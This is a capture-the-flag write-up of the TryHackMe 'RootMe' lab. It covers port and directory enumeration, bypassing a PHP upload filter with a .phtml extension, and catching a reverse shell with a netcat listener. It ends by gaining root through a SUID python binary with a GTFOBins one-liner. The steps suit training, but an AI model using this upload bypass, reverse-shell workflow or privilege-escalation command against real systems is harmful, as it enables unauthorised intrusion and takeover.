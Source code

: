 ```yaml
---
title: "TryHackMe - RootMe"
author: Nasrallah
description: ""
date: 2022-01-03 00:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, linux, web, gobuster, suid, privesc, python, reverse-shell, filter]
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png
  width: 268
  height: 268
  alt: rootme
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [RootMe](https://tryhackme.com/room/rrootme), a medium machine from TryHackMe. Let's start.

# **Description**
A ctf for beginners, can you root me?

# **Enumeration**
## nmap
Let's start our nmap scan:
`sudo nmap -sC -sV -T4 {target_IP} -oN nmap.scan`

-sV : find the version of all the service running on the target

-sC : run all the default scripts

-oN : save the output in a file called nmap


```terminal
$ sudo nmap -sC -sV -T4 10.10.125.128 -oN nmap.scan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 03:17 EST
Nmap scan report for 10.10.125.128
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds

```

We have to open ports:
- 22(SSH)
- 80(http)

## Gobuster
Since we have a web server, let's do a directory scan using Gobuster:
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u {target_IP}`

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u http://10.10.125.128 | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/01/03 03:35:19 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.125.128/css/]
/index.php            (Status: 200) [Size: 616]                                 
/index.php            (Status: 200) [Size: 616]                                 
/js                   (Status: 301) [Size: 311] [--> http://10.10.125.128/js/]  
/panel                (Status: 301) [Size: 314] [--> http://10.10.125.128/panel/]
/server-status        (Status: 403) [Size: 278]                                   
/uploads              (Status: 301) [Size: 316] [--> http://10.10.125.128/uploads/]

===============================================================
2022/01/03 03:37:50 Finished
===============================================================
```
- dir : for directory scan
- u : URL
- w : Wordlist
- x : Search for extensions(php,txt,html..)

We found 2 directories that stand out: **/panel** and **/uploads**. Let's see what's on each one.

![panel](/assets/img/tryhackme/rootme/panel.png)

We have an upload page here, and everything we upload goes to the **/uploads** directory. with that, let's try to upload a php reverse shell. I will be using [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
![error](/assets/img/tryhackme/rootme/error.png)
> you have to change the ip address in the script to your attacking machine's ip address: run the command `ip a show tun0` or `ifconfig` to get your ip address

![change-this](/assets/img/tryhackme/rootme/change.png)

Oh! It seems that we can't upload a `.php` file, let's try changing that extension to another one. Some of the extensions that we can use are:`.phar - .pht - phps - phtml - php3 - .php4 - .php5 - .php7`

After some try and error, we found that `.phtml` extension works.

# **Foothold**
Let's visit **/uploads** page, we should see our reverse shell there.
![shell](/assets/img/tryhackme/rootme/shell.png)
Let's now run a listener on our machine using this command `nc -nlvp 1234`.
> the port should be the same one in the reverse shell script!!

After that, let's execute the script by clicking on the file or by visiting it on (http://{target_IP}/uploads/shell.phtml)

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.125.128] 39406
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:33:55 up  1:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ export TERM=xterm
export TERM=xterm
www-data@rootme:/$ ^Z       #typed ctrl+z
zsh: suspended  nc -lnvp 1234

┌──(kali㉿kali)-[]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234         #typed Enter

www-data@rootme:/$
```
We got our shell, i executed some command there to get a fully functional shell. The commands are:
```terminal
[target machine] python3 -c 'import pty;pty.spawn("/bin/bash")'

[target machine] export TERM=xterm

[target machine] ctrl+z

[attacker machine] stty raw -echo;fg
```
# **Privilege Escalation**
Let's now do some enumeration and see if we can find some privilege escalation vectors.
`sudo -l` and `id` are always the go to commands once you get access to a machine.
```terminal
www-data@rootme:/$ sudo -l
[sudo] password for www-data:
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$
```
That gave us nothing, let's search for some SUID binaries:
```terminal
www-data@rootme:/$ find / -type f -perm -04000 2>/dev/null                                                                                           [10/238]
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                  
/usr/lib/snapd/snap-confine                                                                                                                                  
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                                                                                                                   
/usr/lib/eject/dmcrypt-get-device                                                                                                                            
/usr/lib/openssh/ssh-keysign                                                                                                                                 
/usr/lib/policykit-1/polkit-agent-helper-1                                                                                                                   
/usr/bin/traceroute6.iputils                                                                                                                                 
/usr/bin/newuidmap                                                                                                                                           
/usr/bin/newgidmap                                                                                                                                           
/usr/bin/chsh                                                                                                                                                
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
.
.
.
```
That gave us a lot of binaries, but the one that looks interesting for us is **/usr/bin/python**. After looking for python in [GTFOBins](https://gtfobins.github.io), we find that we can execute this command `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` to get a root shell, let's do it:
```terminal
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# ls /root
root.txt
# ls /var/www
html  user.txt
#
```
Great, and just like that, we got root, I hope you guys enjoyed it.

See you in the next hack!
